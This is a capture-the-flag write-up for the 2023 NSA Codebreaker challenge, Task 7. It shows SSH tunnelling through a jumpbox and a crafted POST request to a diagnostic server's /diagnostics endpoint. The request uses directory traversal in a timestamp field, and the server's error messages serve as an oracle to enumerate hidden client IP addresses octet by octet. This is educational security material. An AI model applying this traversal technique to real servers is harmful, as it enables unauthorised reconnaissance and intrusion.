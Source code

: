 # 2023 NSA Codebreaker 
#### Task 7 - There is Another - (Reverse Engineering, Exploitation)

```
Intelligence sources indicate with high probably there is a second device somewhere. We don't know where it is physically, but maybe you can find it's IP address somehow. We expect it is one of the up to 2^20 devices connected to the Blue Horizon Mobile network. Blue Horizon Mobile has explained that their internal network is segmented so all user devices are in the 100.64.0.0/12 IP range.

Figure out how the device communicates with the IP you found in the previous task. It must only do so on-demand otherwise we would have probably discovered it sooner. This will probably require some in depth reverse engineering and some guess work. Use what you learn, plus intuition and vulnerability research and exploitation skills to extract information from the server somehow. Your goal is to determine the IP addresses for any devices that connected to the same server. There should be two addresses, one for the downed device, and another for the second device. Your jumpbox account has been updated to allow you to open TCP tunnels to the server (reconnect to enable the new settings). Remember the jumpbox internal IP is 100.127.0.2

```

## Connecting to the server

This task continues from task 6, where we found an IP address. We are utilizing our jumpbox to ssh into the said IP address

I first created an SSH tunnel using the jumpbox:
```
sudo ssh -D 9051 -i jumpbox.key user@external-support.bluehorizonmobile.com
```

The IP address we have to connect to requires a username. The username can be found in one of the binaries we received in task 5 by reverse engineering it with Ghidra:
```
SSH_USERNAME=nonroot_user
BALLOON_ID=<some-uuid>
PRIVATE_KEY_PATH=<path-to-id_ed25519>

export EXPECTED_HOST_KEY=$(cat <expected_host_key>)

# guessing now

SSH_SERVER_ADDRESS
SSH_SERVER_PORT
```

The IP address also requires a ssh key, this is found in the QEMU machine we received in an earlier task.


I used proxychains to send commands on the jumpbox host to communicate with the IP address we found in task 6 using the private key and the ssh username:
```
proxychains ssh -i private_key -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" nonroot_user@100.80.144.142
```

## Solution

Upon running the previous command, we receive what looks to be an initialization for a server that appears to be waiting for data:

```
alexander@MOTHERSHIP:~/Desktop$ proxychains ssh -i private_key -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" nonroot_user@100.80.144.142
ProxyChains-3.1 (http://proxychains.sf.net/)
|D-chain|-<>-127.0.0.1:9051-<>-127.0.0.1:9051-<--timeout
|D-chain|-<>-127.0.0.1:9051-<><>-100.80.144.142:22-<><>-OK
Warning: Permanently added '100.80.144.142' (ED25519) to the list of known hosts.
PTY allocation request failed on channel 0
2023/10/09 04:53:36 Diagnostic Server starting...
2023/10/09 04:53:41 ready
{diagserver} 2023/10/09 04:53:41.071941 Starting connection timer...
```

Proceeding with this challenge past this point requires **a lot** of trial and error. After playing with it for some time, I found that the server only accepts HTTP POST requests to a directory named _/diagnostics_. 

After finding the directory, I found that the server kept telling me that it required a command response with every status update:

```
{diagserver} 2024/01/13 00:13:28.069954 received StatusUpdate without CommandResponse

{"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}{diagserver} 2024/01/13 00:13:28.069984 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>

{diagserver} 2024/01/13 00:13:28.070003 Content-Length: 75
{diagserver} 2024/01/13 00:13:28.070007 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
```
Inspecting the diagserver binary more, I found a CommandResponse struct that I recreated in JSON:

```
struct main.CommandResponse {
    byte Id[16];
    struct string.conflict Starttime;
    struct string.conflict Endtime;
    struct string.conflict Cmd;
    struct string.conflict Stdout;
    struct string.conflict Stderr;
    struct string.conflict Err;
};
```
Finding this, I did craft a POST request similar to this:

```
POST /diagnostics HTTP/1.1
Content-length: 10000


{
  "status_data": {
    "balloon_id": "55899311-b002-483d-a7ba-c1cde03ea2b3"
  },
  "command_response": {
    "id": "55899311-b002-483d-a7ba-c1cde03ea2b3",
    "starttime": "2023-10-09T17:08:41.2260Z",
    "endtime": "2023-10-09T17:13:41.2260Z"
  }
}
```

Here's a similar response I received after sending this:

```
{diagserver} 2023/11/04 18:40:46.319160 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: no such file or directory
```

Seeing this response and fuzzing our inputs, I found that the request that we send attempts to store the data into a directory that matches our IP address. The challenge states that we have to find 2 IP addresses that have connected to this server. 

Drawing some inferences and doing more fuzzing, I figured out that I needed to find a directory that exists using directory traversal in our _starttime_ field. A directory that exists is defined as a response with the words "permission denied".

```
2023/11/04 19:13:56 Diagnostic Server starting...
2023/11/04 19:14:01 ready
{diagserver} 2023/11/04 19:14:01.150118 Starting connection timer...
{diagserver} 2023/11/04 19:14:01.150285 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:01.150338 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: permission denied
{diagserver} 2023/11/04 19:14:01.150353 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:01.150360 Content-Length: 0
{diagserver} 2023/11/04 19:14:01.150365 server to client body:
{diagserver} 2023/11/04 19:14:01.233391 EOF
```

Within the challenge, we are given a subnet with which the two IP addresses are that we need to find. If we create a script that repeatedly sends post requests to every ip address, this is going to take a VERY long time. 

Explained simply, we will start with the first octet and iterate over 255 possible numbers via directory traversal to find the FIRST OCTET of the two ip addresses. For the 2 returned "permission denied" responses, we add the octet that returned a "persmission denied" to our directory traversal and move to the next octet until we find the full ip addresses.

My spaghetti code for this process is within this repository!
